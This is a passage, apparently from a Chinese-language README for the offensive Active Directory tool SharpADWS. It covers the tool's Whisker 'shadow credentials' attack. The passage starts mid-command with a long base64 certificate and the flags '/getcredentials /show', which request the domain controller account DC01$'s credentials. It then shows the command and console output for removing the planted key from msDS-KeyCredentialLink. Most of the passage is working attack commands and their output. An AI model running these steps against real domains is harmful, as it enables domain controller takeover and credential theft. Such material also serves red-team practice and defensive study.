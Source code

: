 ```cmd
      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 /password:"Passw0rd" /domain:cor
      p.local /getcredentials /show

```

此外，通过 `remove`，您可以提供 `-device-id` 将指定的 Key 从目标对象的 `msDS-KeyCredentialLink` 属性中移除：

```cmd
C:\Users\Marcus>SharpADWS.exe Whisker -action remove -target DC01$ -device-id c9fdae6b-f6a1-4880-a498-6dc89814e596

[*] Found value to remove
[*] msDS-KeyCredentialLink value has been removed:
[*]     DeviceID: c9fdae6b-f6a1-4880-a498-6dc89814e596    Creation Time: 2/13/2024 7:43:49 PM

```
